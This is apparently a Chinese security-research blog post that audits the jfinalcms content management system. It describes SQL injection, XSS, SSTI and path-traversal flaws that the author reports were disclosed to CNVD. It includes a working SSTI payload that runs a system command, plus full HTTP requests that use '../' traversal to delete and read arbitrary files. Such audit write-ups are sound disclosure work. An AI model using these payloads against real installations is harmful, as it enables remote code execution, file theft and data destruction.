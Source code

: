 

# 快速审计记录 (三)--jfinalcms - 先知社区

快速审计记录 (三)--jfinalcms

- - -

这个 cms 其实这个师傅已经审计的差不多了，只是我又找到一些别的有趣的点。  
[https://xz.aliyun.com/t/13259](https://xz.aliyun.com/t/13259?time__1311=mqmxnDBD9DyDuCDlxGo4%2Bh%3DOKuirK7jCeD&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Ftab%2F1%3Fpage%3D2)

# SQL 注入

## 前置知识

jfinal 框架下的预处理为如下

```bash
Long count = Db.queryLong("select count(1) from cms_admin where username = ?",username);
```

使用占位符进行替代  
存在 SQL 注入的就是直接使用拼接进行数据查询

```bash
return paginate(pageNumber, pageSize, "select *", "from cms_admin where 1=1 "+filterSql+orderBySql);
```

可以看到进行拼接

## 漏洞代码

[![](assets/1707954818-0638daf2a2e52bf20bafe98e9afbf265.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705826657460-f26b3fbb-3dc9-4d74-8404-a74fd3ce6fec.png#averageHue=%23202226&clientId=udc11ffe9-a4f1-4&from=paste&height=123&id=cJm4r&originHeight=184&originWidth=1536&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=29005&status=done&style=none&taskId=u23e060b2-55d5-4273-866e-3ebc1ab2feb&title=&width=1024)  
可以看到拼接 查找 source 点  
[![](assets/1707954818-7327590eb730a5893a1451150b1b6708.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705826825854-6de2270b-97a9-401a-a612-c2d26a9c5a02.png#averageHue=%231f2124&clientId=udc11ffe9-a4f1-4&from=paste&height=489&id=z4TXA&originHeight=733&originWidth=1471&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=93789&status=done&style=none&taskId=uc1e53775-ad64-4280-a908-ae10297b0be&title=&width=980.6666666666666)

# XSS

这个系统基本上到处都是 XSS，这里就不展开分析了

# 前台任意文件读取

## 漏洞详情

[![](assets/1707954818-4db16a66545b6d1ed5102fe7dc080fa8.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705820922080-dd57992e-b416-4f07-a7ba-b133eddfba3f.png#averageHue=%23eceff4&clientId=udc11ffe9-a4f1-4&from=paste&height=397&id=u07fee428&originHeight=595&originWidth=1536&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=124277&status=done&style=none&taskId=ub1bd8bbd-72d1-4f13-9443-2972ce59ccc&title=&width=1024)  
接口参数`/common/down/file?fileKey`

## 代码详情

[![](assets/1707954818-60c38b8b523a2beecee08bf2049e2b5f.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705820961166-7e855054-47b9-47a5-984d-b0cf1638fa7e.png#averageHue=%2320252f&clientId=udc11ffe9-a4f1-4&from=paste&height=237&id=u51231c16&originHeight=355&originWidth=1525&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=50146&status=done&style=none&taskId=ud69c0f72-cd2b-4514-8637-4bfa3229464&title=&width=1016.6666666666666) 未过滤../造成任意文件读取

# SSTI

## 漏洞详情

```bash
#set((java.beans.Beans::instantiate(null,"javax.script.ScriptEngineManager")).getEngineByExtension("js").eval("function test(){ return java.lang.Runtime};r=test();r.getRuntime().exec(\"calc.exe\")"))
```

## [![](assets/1707954818-874fe60ef7032dc09f168c98aa2c81e9.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705821634804-a284a760-53d8-4cec-a400-2bcfc6025156.png#averageHue=%23e1b980&clientId=udc11ffe9-a4f1-4&from=paste&height=760&id=u8e63be11&originHeight=1140&originWidth=2151&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=295131&status=done&style=none&taskId=u0dd147a0-fac7-4547-98e8-b8d318113ee&title=&width=1434)

[![](assets/1707954818-e512f7eb65a7f169b9c36758af7ca9ac.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705821613990-aeba0c49-f2ee-4cab-acbd-26d8e4659852.png#averageHue=%23b9ccab&clientId=udc11ffe9-a4f1-4&from=paste&height=632&id=uc74bd9fd&originHeight=948&originWidth=1786&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=564988&status=done&style=none&taskId=ua17b52f7-7868-4e49-a0b7-728516cf42d&title=&width=1190.6666666666667)  
在模板管理处写入恶意代码，返回首页可以看到 代码被执行了。

## 代码详情

抓包的时候路由为`/admin/template/edit`  
`src/main/java/com/cms/controller/admin/TemplateController.java`  
[![](assets/1707954818-3d13d066455421b1c3d27dc70f776150.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705821808760-f5f1a309-7bc4-43f2-a943-56059c800d53.png#averageHue=%2320242b&clientId=udc11ffe9-a4f1-4&from=paste&height=433&id=u0d2f2512&originHeight=649&originWidth=1602&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=128536&status=done&style=none&taskId=u32b83371-a4a0-48ae-8b58-4afea23d916&title=&width=1068)  
debug 的时候 可以看到对插入的内容没有任何检测  
当然 save 方法也是如此  
[![](assets/1707954818-fd9d705bca240f904c2c57c3a51c2496.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705821894808-053df7b6-da95-476c-967f-2b014b46873d.png#averageHue=%231f2124&clientId=udc11ffe9-a4f1-4&from=paste&height=417&id=uad49202e&originHeight=625&originWidth=1426&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=97711&status=done&style=none&taskId=u81ce3e8e-b1f8-4ee0-b950-6bcac328a10&title=&width=950.6666666666666)  
复现到这里，感觉，后台又很多漏洞，不是很想复现了，于是我转眼开始看前台的洞，看看有没有未授权，后台有没有别的有意思的。  
于是找到了一个任意文件删除和前台的任意文件读取

# 任意文件删除

## 漏洞详情

[![](assets/1707954818-57010dde8c12c9cfb924a03ebede4dbf.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705822232392-ebd4b60f-834f-4453-94fa-1f336d3ecb52.png#averageHue=%23f9f8f8&clientId=udc11ffe9-a4f1-4&from=paste&height=699&id=u726423c2&originHeight=1048&originWidth=2061&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=136649&status=done&style=none&taskId=u07be5324-663f-4916-8d0d-fab4056a889&title=&width=1374)

```bash
GET /admin/template/delete?fileName=../../../../../../../../../../../../../../../../../1.txt&directory=default HTTP/1.1
Host: 127.0.0.1:8888
Accept-Encoding: gzip, deflate, br
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Sec-Fetch-Dest: document
Sec-Fetch-User: ?1
Sec-Fetch-Mode: navigate
Referer: http://127.0.0.1:8888/admin/template?directory=default
Cookie: JSESSIONID=node015ngvb2ja0qa1wkafhnodmyx50.node0; _jfinal_captcha=f9a9d1bdbbe14e6fb43902e9fb6daec9; listQuery=directory%3Ddefault
Sec-Fetch-Site: same-origin
```

## 漏洞分析

[![](assets/1707954818-4022c3546529a63c4498bfa9aeed9bc1.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705822183814-d857b0e9-5912-4f4b-9ae6-0f21e87eab1d.png#averageHue=%2320252d&clientId=udc11ffe9-a4f1-4&from=paste&height=303&id=u5c205cfa&originHeight=454&originWidth=1639&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=99326&status=done&style=none&taskId=u418ce407-d162-4d8b-85e7-bdf70bf55a0&title=&width=1092.6666666666667)  
没做任何过滤 可以删除任意文件

# 前台任意文件读取

## 漏洞详情

[![](assets/1707954818-347d022ee189a82b01214259f67d04b2.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705822801905-1e1a598a-7d41-4d13-8e4c-b2806ca1bb60.png#averageHue=%238dbedc&clientId=udc11ffe9-a4f1-4&from=paste&height=433&id=ub6c50c71&originHeight=649&originWidth=1536&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=120685&status=done&style=none&taskId=u88946451-e2aa-496d-97a9-87b3944f13e&title=&width=1024)

```bash
GET /ajax/html?html=../../../../../../../../../../../../../1.txt HTTP/1.1
Host: 127.0.0.1:8888
Sec-Fetch-User: ?1
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=node015ngvb2ja0qa1wkafhnodmyx50.node0; _jfinal_captcha=f9a9d1bdbbe14e6fb43902e9fb6daec9; listQuery=directory%3Ddefault
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Sec-Fetch-Site: none
```

## 漏洞分析

[![](assets/1707954818-a48bcb958dc9d3f2f7708994e4491353.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705822783689-595b47d4-23ca-4bd8-950d-465b427454ff.png#averageHue=%231f2024&clientId=udc11ffe9-a4f1-4&from=paste&height=335&id=u9041c126&originHeight=502&originWidth=1089&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=42233&status=done&style=none&taskId=u47de7ebe-ecfa-4893-a15d-1b0e3e12206&title=&width=726)  
目录穿越 直接渲染读取

## 小结

如上漏洞已经提交 CNVD 并且通过。  
这套代码已经一年多没有更新了，用来入门 jfinal 框架还是很不错的。
